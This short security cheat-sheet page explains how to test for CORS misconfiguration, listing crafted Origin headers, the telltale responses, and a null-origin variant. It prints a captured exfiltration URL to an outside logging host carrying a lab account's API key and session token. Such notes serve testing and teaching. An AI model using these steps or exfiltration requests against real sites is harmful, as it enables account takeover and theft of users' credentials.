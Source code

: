 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure, could lead in account takeover.</p>
<h4>Headers to test:</h4>
<p><code>Origin: https://example.com</code></p>

<p><code>Origin: http://example.com</code></p>

<p><code>Origin: http://subdomain.$domain.com</code></p>

<p>Response:</p>
<p><code>Access-Control-Allow-Origin: https://example.com</code></p>
<p><code>Access-Control-Allow-Origin: https://subdomain.$domain.com</code></p>

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console, and you must see:</p>
<p><code>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</code></p>

<p>This will store the accout details.</p>
